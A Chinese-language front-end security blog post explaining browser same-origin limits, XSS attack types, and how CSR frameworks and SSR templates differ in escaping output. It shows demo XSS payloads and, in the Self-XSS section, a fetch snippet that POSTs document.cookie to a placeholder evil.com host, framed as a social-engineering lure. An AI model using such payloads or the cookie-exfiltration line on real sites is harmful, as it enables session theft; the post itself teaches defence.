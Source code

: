 ```yaml
---
title: 前端資安宇宙（一）- 瀏覽器與XSS
date: '2025-06-15'
tags: ['security', 'XSS', 'front-end']
draft: false
summary: '本文介紹瀏覽器的安全限制、XSS 的攻擊類型與實際範例，並整理 CSR/SSR 在防範 XSS 上的差異與常見誤區。'
---
```


## 前言

身為一個網頁軟體工程師，資安這塊是非常用重要的，雖然現在大多都在做內部系統，但是面試還是會常常問到，所以我乾脆與我們公司前端一起辦了場資安讀書會。
本文章會參考胡立大大寫的 [Beyond XSS：探索網頁前端資安宇宙](https://www.tenlong.com.tw/products/9786267383803)。

## 瀏覽器不能做的事？

1. **禁止呼叫本機檔案**

2. **禁止呼叫系統 API**
   - 存取本地 registry
   - 讀寫磁碟任意路徑
   - 自動安裝軟體（需確認）
   - 開啟攝像頭或音訊設備 [需確認](https://support.google.com/chrome/answer/2693767?hl=zh-HK&co=GENIE.Platform%3DAndroid)

3. **禁止取得其他網站的內容**
   - 如果你在 Yahoo 網頁中嘗試這樣寫：

     ```js
     fetch('https://google.com')
       .then((res) => res.json())
       .then((data) => console.log(data))
       .catch((err) => console.error('被阻擋！', err))
     ```

     預期會出現錯誤：

     ```
     Access to fetch at 'https://google.com/' from origin 'https://tw.yahoo.com'
     has been blocked by CORS policy:
     No 'Access-Control-Allow-Origin' header is present on the requested resource.

     GET https://google.com/ net::ERR_FAILED 301 (Moved Permanently)

     TypeError: Failed to fetch

     被阻擋！ TypeError: Failed to fetch
     ```

   - **無法跨站取得 cookie**
     - 同源政策限制 `document.cookie` 只能讀取「自己的網站」設定的 cookie。
     - 若 cookie 有 `HttpOnly` 屬性，JavaScript 永遠無法取得。（可避免 XSS 攻擊）

---

# 什麼是 XSS？

XSS（Cross-Site Scripting，跨站腳本攻擊）是一種前端常見的資安攻擊手法。  
簡單來說，就是**攻擊者在其他人的網站上注入惡意的 JavaScript 程式碼，並讓其他使用者在不知情的情況下執行它**。

---

## 常見的 XSS 攻擊範例

1. 在輸入框中輸入以下內容，若未適當處理就會執行：
   ```html
   <script>
     alert('XSS!')
   </script>
   ```
2. 偽協議，惡意連結：
   ```html
   <a href="javascript:alert('Hacked!')">點我</a>
   ```
3. 偽裝圖片：

```html
<img src="x" onerror="alert('XSS!')" />
```

---

## CSR vs SSR 在 XSS 防範上的差異

### CSR（Client-Side Rendering，前端渲染）

- **預設具備基本防護**
  - 如 React、Vue 等框架在輸出變數時，會自動將 HTML 特殊符號做轉義（escape）。
  - 例如使用者輸入 `<script>alert(1)</script>`，畫面會呈現為純文字：
    ```html
    &lt;script&gt;alert(1)&lt;/script&gt;
    ```
    而非直接執行。

- **風險來源**
  - 若開發者使用以下方式將內容「直接插入 HTML」，會導致 XSS 風險：
    - React: `dangerouslySetInnerHTML`
    - Vue: `v-html` [連結](https://cn.vuejs.org/api/built-in-directives#v-html`)
    - 原生 JavaScript: `element.innerHTML`

- **只要不使用危險 API，CSR 預設就有不錯的 XSS 防護能力**

---

### SSR（Server-Side Rendering，伺服器渲染）

- **需要開發者自行轉義輸出內容**
  - 若從後端回傳 HTML 字串時，未將使用者輸入進行轉義，會造成 XSS 漏洞。

- **常見問題**
  - 使用樣板引擎時誤用未轉義語法：
    - EJS: `<%- userInput %>`

## 其他類型的 XSS

### Self-XSS（自我 XSS）

Self-XSS 是一種社交工程攻擊，攻擊者會誘導使用者**自己在開發者工具（Console）中貼上並執行惡意程式碼**。  
雖然程式碼是由使用者自己執行的，但實際上資料仍會被竊取或帳號遭入侵。

---

#### 常見誘導語句：

> 「你贏得了禮物！請打開開發者工具（F12），將以下程式碼貼上後就能獲得！」

```js
fetch('https://evil.com/steal-cookie', {
  method: 'POST',
  body: document.cookie,
})
```

### Blind XSS（盲目型 XSS）

Blind XSS 是一種更隱蔽的 XSS 攻擊。  
攻擊者將惡意腳本注入到系統中，但**不是立即在瀏覽者端觸發**，而是等到某個「後台管理者」或「內部人員」在**不同頁面或系統中查看資料時**才會觸發。

### 偽協議 XSS（JavaScript 協議攻擊）

偽協議攻擊是指攻擊者在超連結（`<a>` 標籤）中，使用 `javascript:` 協議來執行惡意腳本。  
這種方式常見於釣魚連結、留言注入等 XSS 攻擊中。

---

#### 攻擊範例：

```html
<a href="javascript:alert('Hacked!')">點我領取獎勵！</a>
```

如何解決？

```
使用sanitize-url套件
```
